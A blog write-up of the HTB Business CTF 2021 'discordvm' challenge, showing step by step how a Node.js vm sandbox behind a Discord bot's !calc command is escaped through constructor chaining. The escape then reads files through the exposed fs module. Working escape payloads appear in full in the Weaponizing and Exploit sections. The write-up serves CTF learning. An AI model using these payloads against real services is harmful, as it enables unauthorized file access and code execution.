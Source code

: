 ## HTB Business CTF 2021: discordvm

# Introduction
We introduced "sandboxing" using Node.js vm module on our calculator feature.
`https://discord.gg/<redacted>`

> Complete write up for the `discordvm` challenge at Business CTF 2021 hosted by [Hack The Box](https://www.hackthebox.eu/htb-business-ctf-2021). This article is a part of a [HTB Business CTF 2021 series](https://blog.cyberethical.me/series/htb-business-2021). 

> Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

***
# Contents
1. [Introduction](#introduction)
* [Basic Information](#basic-information)
* [Recon](#recon)
* [Weaponizing](#weaponizing)
* [Exploit](#exploit)
* [Additional readings](#additional-readings)
***

# Basic Information

| #   |     |
| :-- | :-- |
|Type    | Jeopardy CTF / Miscellaneous
|Organized  by | [Hack The Box](https://hackthebox.eu/htb-business-ctf-2021/)
|Name    | **HTB Business CTF 2021 / discordvm**
| CTFtime weight | [24.33](https://ctftime.org/rating-formula/) 
|Started | 2021/07/23 12:00 UTC
|Ended | 2021/07/25 18:00 UTC
|URLs    | https://ctf.hackthebox.eu/ctf/135
|Author  | **Asentinn** / NetCrawlers
|       | https://ctftime.org/team/159004

%%[patreon-btn]

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

# Recon

We are provided with the Discord Server invite. 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627303578339/DkakSkJyc.png)

We are having single `general` channel, without permissions to send messages. In the message history we can read

> [+] Welcome to our mock Discord server! 👋 

> It is intended that you cannot send messages here. 🔒

> The purpose of this Discord server is to just host the Business CTF 2021 Misc challenge > called discordvm. :metal: 

> Do not DM anyone other than `@discordvm` . ⛔ 

> To interact with the challenge DM `@discordvm` the command !help. Have fun! 👏

So, the purpose of this challenge is to get the flag from the Discord Bot - `@discordvm`. We are also provided with the backend source code:

```js
const vm = require('vm');
const payload = '1+1';
console.log(vm.runInNewContext(payload));

// The Discord bot get's args[0], so pretty much the same setup except no spaces.
```

## Communication with the bot

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304096045/KMbYmTh82.png)

Bot reacts to the `!help` and `!calc` commands. Second one apparently just pass the arguments of command as a `payload` to the `vm.runInNewContext` NodeJS method.

# Weaponizing

Let's create a local NodeJS application that is obtaining the payload in its arguments, just like the bot.

```js
const vm = require('vm');
var myArgs = process.argv.slice(2);

console.log(vm.runInNewContext(myArgs[0]));
```

To run it, simply call `node main.js 1+1`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304307486/TJJNNYDo7.png)

Now, working together with the [The unsecure node vm module](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/) article I come up with the following Node VM escape command

```text
node main.js "(this.constructor.constructor('return this'))()"
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627304481835/O4mo9oOq3A.png)

# Exploit

Passing an exploit in the command does error out.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627308677841/yrys4YzOn.png)

It seems like there is an issue with the space in the command. There are multiple ways to challenge that. I went with `String.fromCharCode("160")`

```text
!calc (this.constructor.constructor('return'+String.fromCharCode("160")+'this'))()
```

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310136104/3DaREOq6f.png)

We can see that returned is the `object`. Now, by enumerating available members or `this` we can find out that `fs` is loaded.

```
!calc (this.constructor.constructor('return'+String.fromCharCode("160")+'Object.entries(this)[9]'))()
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310439967/1qDn6ZLGr.png)

This is what we need. Let's retrieve the flag from the file system.

```
!calc (this.constructor.constructor("return"+String.fromCharCode("160")+"this.fs.readdirSync('.')"))()
!calc (this.constructor.constructor("return"+String.fromCharCode("160")+"this.fs.readFileSync('flag.txt')"))()
```
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1627310955408/_UrmpfYgz_.png)

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping

>✔ CDN hosted images

>✔ Free built-in newsletter service

>✔ Built-in blog monetizing through the Sponsor feature

> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media

> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)

> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)

> 👉 LinkedIn: [Kamil Gierach-Pacanek](https://www.linkedin.com/in/kamilpacanek)

> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)

> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)

* [The unsecure node vm module](https://thegoodhacker.com/posts/the-unsecure-node-vm-module/)
* [How do I read files in Node.js?
](https://nodejs.org/en/knowledge/file-system/how-to-read-files-in-nodejs/)